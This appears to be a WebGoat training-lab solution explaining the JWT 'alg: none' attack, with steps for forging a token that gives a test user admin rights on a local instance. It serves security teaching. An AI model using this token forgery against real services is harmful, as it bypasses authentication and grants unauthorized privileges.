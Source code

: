 === Solution

The idea behind this assignment is that you can manipulate the token which might cause the server to interpret the token differently. In the beginning when JWT libraries appeared they implemented the specification to the letter meaning that the library took the algorithm specified inside the header and tried to work with it.

[quote, https://tools.ietf.org/html/rfc8725#section-2.1]
____
Signed JSON Web Tokens carry an explicit indication of the signing
algorithm, in the form of the "alg" Header Parameter, to facilitate
cryptographic agility.  This, in conjunction with design flaws in
some libraries and applications, has led to several attacks:

* The algorithm can be changed to "none" by an attacker, and some
libraries would trust this value and "validate" the JWT without
checking any signature.

*  An "RS256" (RSA, 2048 bit) parameter value can be changed into
"HS256" (HMAC, SHA-256), and some libraries would try to validate
the signature using HMAC-SHA256 and using the RSA public key as
the HMAC shared secret (see [McLean] and [CVE-2015-9235]).

For mitigations, see Sections 3.1 and 3.2.
____

What basically happened was that libraries just parsed the token as it was given to them without validating what cryptographic operation was used during the creation of the token.

==== Solution

First note that we are logged in as `Guest` so first select a different user for example: Tom.
User Tom is allowed to vote as you can see, but he is unable to reset the votes. Looking at the request this will return an `access_token` in the response:

[source]
----
GET http://localhost:8080/WebGoat/JWT/votings/login?user=Tom HTTP/1.1

access_token=
----

Decoding the token gives:

[source]
----
{
  "alg": "HS512"
}
{
  "iat": 1608128566,
  "admin": "false",
  "user": "Tom"
}
----

We can change the `admin` claim to `false` but then signature will become invalid. How do we end up with a valid signature?
Looking at the https://tools.ietf.org/html/rfc7519#section-6.1[RFC specification] `alg: none` is a valid choice and gives an unsecured JWT.
Let's change our token:

[source]
----
headers:

{
  "alg": "none"
}

claims:

{
  "iat": 1608128566,
  "admin": "true",
  "user": "Tom"
}
----

If we use WebWolf to create our token we get:

[source]
----

----

Now we can replace the token in the cookie and perform the reset again. One thing to watch out for is to add a `.` at the end otherwise the token is not valid.



== References

For more information take a look at the following video:

video::wt3UixCiPfo[youtube, height=480, width=100%]



